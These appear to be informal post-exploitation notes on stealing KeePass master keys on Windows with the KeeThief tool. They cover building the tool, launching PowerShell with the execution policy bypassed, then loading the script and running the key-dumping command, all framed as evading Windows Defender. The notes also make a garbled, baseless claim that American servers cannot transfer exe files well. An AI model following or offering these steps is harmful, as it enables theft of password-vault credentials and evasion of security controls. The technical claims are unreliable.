

Post Exploitation for bypassing windows defender
Applications -keytheft (dumps keepass)- We will be doing this in an environment without powershell / windows AV
https://github.com/GhostPack/KeeThief
Bypass PowerShell Restrictions Dump Root Password From KeePass
1. Open "KeeTheft.sln" in visual studio
2. Build it
../../../KeeTheft/bin/xxx

So lets break down the first display of this attack- Below powershell is loaded with
- > powershell.exe -ExecutionPolicy Bypass
- Then keythief is loaded rather than executed - Execution probably won't work all that well on USA hosts (American servers generally cant tranfer exe files well)
- *load it*
- > . ".\KeeThief.ps1"
- > Get-KeePassDatabaseKey